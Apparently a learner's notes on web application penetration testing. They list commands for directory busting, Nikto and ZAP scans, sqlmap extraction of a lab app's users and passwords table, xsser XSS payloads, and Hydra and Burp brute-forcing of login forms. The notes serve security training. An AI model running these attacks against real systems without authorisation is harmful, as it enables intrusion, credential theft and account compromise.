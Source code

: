 
##### Web and HTTP protocol 

- Use inspector to inspect logon page (method and where it is send)
- dirb for directory busting:
	- `dirb http://ip `
- Check what options are possible for the webfiles/directories found with dir: 
	- `curl -X GET ip `
	- `curl -I ip `
	- `curl -X OPTIONS ip -v`
	- `curl -X PUT ip `
	- `curl -X OPTIONS ip/loging.php -v `
	- `curl -X POST ip `
	- `curl -X POSt ip/login.php -d "name=john&password=password" -v` 
	- `curl -X OPTIONS ip/page_of_interest -v `

If PUT is possible: `curl ip/uploads/ --upload-file file.txt`


##### Directory enumeration with GoBuster 


- similar to dirb 
- `gobuster`  (manual)
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt `
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt -b 403,404 ` (filter out 403 and 404)





##### Directory Enumeration with Burp Suite 

- turn on proxyfox 
- Action - send to intruder 
- check target 
- intruder (positions)
- ` Get /$name$` ![[Pasted image 20230926152712.png]] 
	- Sniper (directly) Attack type are different 
- Payloads
	- Add: data, passwords, phphmyadmin, js, images, 
	- load wordlist from kali: wordlists -> dirb --> common


##### Scanning Web Application with ZAProxy 

- run nmap scan 
open owasp zap 
click around on website to collect data 
![[Pasted image 20230926180039.png]]

Select form based authentication
![[Pasted image 20230926180141.png]]
Make sure user mode is enabled 
Use the spider to do enumaration 

##### Scanning web Applications with Nikto 

- `ping` and `nmap` for port 80 
- `nikto` 
- `nikto -Help `
- `nikto -h http://ip `
- `nikto -h http://ip/full_url -Tuning 5 -Display V
- `nikto -h http://ip/full_url -Tuning 5 -Display V -o nikto-results.hthml -Format html' 


##### Passive Crawling with Burp Suite 

- pull up http server with webbrowser 
- turn on burpsuite with foxyproxy
- check http history 
- target shows tree of site map 
- add the ip you test to the scope 


##### SQL Injection with SQLMap 
- run `nmap` 
- turn on foxyproxy 
- turn on burp - intercept on
- `sqlmap` 
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title `
![[Pasted image 20230926210205.png]]
- get the request in repeater so we can change it and send it again: 
![[Pasted image 20230926210610.png]]
- - `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp --tables `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users --columns `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users -C admin,passwords,email`



Generate new payloads - use payloads in repeater in burp 
- `sqlmap -r request -p title ` 




##### XSS Attack with XSSer

- visit 80 in browser 
- turn on foxyproxy 
- `xxser`
- `xsser -url "http://ip/index.php?page=dns-lookup.php" -p "payload" --auto ` (change payload to payload)
	- add custom script with: `--Fp "<script>alert(1)</script>"`
- scan page: `xsser -url "http://ip/index.php?PAGE_OF_INTREST"
**CHANGE YOU VARIABLE WITH XSS**
![[Pasted image 20230926212948.png]]










##### Authenticated XSS Attack with XSSer 

We need a cookie to try authenticated session 
Script is interpreted 
![[Pasted image 20230926213430.png]]

Use xsser to find out if its vulnerable for XSS
- `xsser` 
- `xsser -url "http://ip/path?firstanem=XSS&etc" --cookie"security_level=0; PHPSESSID=cookie" `
add `<script>alert(1)</script>`


##### Attacking HTTP Login From with Hydra 

- `hydra` 
  view page source to see what the post request for login is asking for and add that to the hydra command
- `hydra -L users_list -P passwords_list target_ip http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:reply_that_hydra_should_belookingfor




##### Attacking Basic Auth with Burp Suite 


- visti: `http://ip/basic`
![[Pasted image 20230926214941.png]]
Everything will be encrypted in base64 
![[Pasted image 20230926215015.png]]
add payload with wordlist - payload processing: add prefix admin: - encoded base 64 - 
decode in burp 
(smartdecode)
![[Pasted image 20230926215259.png]]



##### Attacking HTTP Login From ZAProxy 

- open owasp zap in kali (zaproxy)
- manual explore enter the ip and launch browser 
- try a login to capture the traffic 
- use the POST request with the login - right click and fuzz 
- load wordlist (select the username or password and Add)
- start fuzzer 


/fil